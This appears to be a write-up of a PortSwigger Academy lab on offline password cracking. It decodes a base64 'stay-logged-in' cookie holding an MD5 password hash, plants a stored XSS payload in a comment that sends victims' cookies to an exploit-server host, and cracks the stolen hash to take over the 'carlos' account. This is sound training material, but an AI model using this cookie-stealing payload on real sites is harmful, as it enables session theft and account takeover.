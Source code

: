 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/57ceb379-1f73-49cc-9651-0c44194f9d0c)

## Overview :

n some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption. 

## Solution :

As in the previous lab, enter credentials and log in as wiener to see how the functionality works.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/24a0a8bb-34db-4812-b4a1-4d7c9d6520b5)

The first request sent has a **stay-logged-in=on** parameter.

```http
POST /login HTTP/1.1
Host: 0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Cookie: session=JaemGLTk3kt9fqbpfjJnhTFLSsqRTclh; stay-logged-in=
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Referer: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=wiener&password=peter&stay-logged-in=on
```

The second subsequent request contains the **stay-logged-in** cookie.

```http
GET /my-account HTTP/2
Host: 0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Cookie: session=AAZV3xRtr0zTn9mIeTlqYZkjm6WqeVMK; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Once sucessfully logged in , we get this page, where we have delete account option as well with the update email option.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4c009482-9fa7-4f65-93bd-26c56606b143)

Examining the stay-logged-in cookie parameter in  *Inspector tab* reveals that it is *base64 encoded form of the username & password hash*

> base64{wiener:MD5(password)}

where, the password hash is of MD5 format.

The lab says that the **Comment functionality is vulnerable to XSS**. So we will enter a stored XSS payload in the comment section,

```js
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
I used burp collaborator as my exploit server - `ufd94gqjd9x3d2k4tmycsjuec5iv6k.oastify.com`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6f3a3ae1-8499-4c02-aed5-69aaa7cb5b94)

After we post comment, we get a *Thank you* response

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/30f47f7f-47ad-4204-9588-249eaff760f9)

Now if we go and click `Poll now` in burp collaborator , we see that there were few request made to our server.

In one of the *HTTP* requests, we get the stay-logged-in cookie of the victim user - `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cb0fcfa0-ebea-4ae0-a2b3-beb5017c7df2)

It is the base64 encoded form of user carlos and his MD5 hash of his password. - `carlos:26323c16d5f4dabff3bb136f2460a943`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4716f8e8-a4f8-4be0-8c9f-b2d5aaff03e2)

Using online MD5 decoders, we can easily find the password of carlos - `onceuponatime`

Now we can log in as carlos & delete the account to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b56dbb4a-a0b1-435e-8264-05ceab685f97)



